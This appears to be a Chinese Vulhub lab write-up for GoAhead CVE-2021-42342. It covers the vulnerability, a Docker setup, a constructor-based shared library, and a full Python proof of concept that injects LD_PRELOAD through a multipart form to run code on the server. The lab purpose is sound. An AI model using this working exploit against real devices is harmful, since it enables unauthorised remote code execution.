

GoAhead Server 环境变量注入 CVE-2021-42342¶
漏洞描述¶
GoAhead是一个开源(商业许可)、简单、轻巧、功能强大、可以在多个平台运行的Web Server，多用于嵌入式系统、智能设备。其支持运行ASP、Javascript和标准的CGI程序。
这个漏洞是CVE-2017-17562漏洞补丁的绕过，攻击者可以利用该补丁没有考虑到的multipart表单控制目标服务器的环境变量，进而劫持LD_PRELOAD来执行任意代码。
参考链接：
- https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562
- https://ahmed-belkahla.me/post/2-methods-rce-0-day-in-goahead-webserver-pbctf-2021/
- https://mp.weixin.qq.com/s/AS9DHeHtgqrgjTb2gzLJZg
环境搭建¶
Vulhub执行如下命令启动GoAhead 5.1.4：
docker-compose up -d
启动完成后，访问http://your-ip:8080/即可看到欢迎页面。访问http://your-ip:8080/cgi-bin/index即可查看到Hello页面，即为CGI执行的结果。
漏洞复现¶
首先需要编译一个动态链接库，而且需要和目标架构相同。所以在实战中，如果对方是一个智能设备，你可能需要交叉编译。因为Vulhub运行在Linux x86_64的机器中，所以我们直接用Linux PC编译即可。动态链接库源码：
#include <unistd.h>
static void before_main(void) __attribute__((constructor));
static void before_main(void)
{
write(1, "Hello: World\r\n\r\n", 16);
write(1, "Hacked\n", 7);
}
这样，before_main函数将在程序执行前被调用。编译以上代码：
gcc -s -shared -fPIC ./payload.c -o payload.so
然后，我们使用这个脚本来发送恶意数据包，复现漏洞：
python poc.py http://target-ip:8080/cgi-bin/index /path/to/payload.so
可见，我们在动态链接库中编写的劫持代码已经被成功执行：

漏洞POC¶
import sys
import socket
import ssl
import random
from urllib.parse import urlparse, ParseResult
PAYLOAD_MAX_LENGTH = 16384 - 200
def exploit(client, parts: ParseResult, payload: bytes):
path = '/' if not parts.path else parts.path
boundary = '----%s' % str(random.randint(1000000000000, 9999999999999))
padding = 'a' * 2000
content_length = min(len(payload) + 500, PAYLOAD_MAX_LENGTH)
data = fr'''POST {path} HTTP/1.1
Host: {parts.hostname}
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary={boundary}
Content-Length: {content_length}
--{boundary}
Content-Disposition: form-data; name="LD_PRELOAD";
/proc/self/fd/7
--{boundary}
Content-Disposition: form-data; name="data"; filename="1.txt"
Content-Type: text/plain
#payload#{padding}
--{boundary}--
'''.replace('\n', '\r\n')
data = data.encode().replace(b'#payload#', payload)
client.send(data)
resp = client.recv(20480)
print(resp.decode())
def main():
target = sys.argv[1]
payload_filename = sys.argv[2]
with open(payload_filename, 'rb') as f:
data = f.read()
if len(data) > PAYLOAD_MAX_LENGTH:
raise Exception('payload size must not larger than %d', PAYLOAD_MAX_LENGTH)
parts = urlparse(target)
port = parts.port
if not parts.port:
if parts.scheme == 'https':
port = 443
else:
port = 80
context = ssl.create_default_context()
with socket.create_connection((parts.hostname, port), timeout=8) as client:
if parts.scheme == 'https':
with context.wrap_socket(client, server_hostname=parts.hostname) as ssock:
exploit(ssock, parts, data)
else:
exploit(client, parts, data)
if __name__ == '__main__':
main()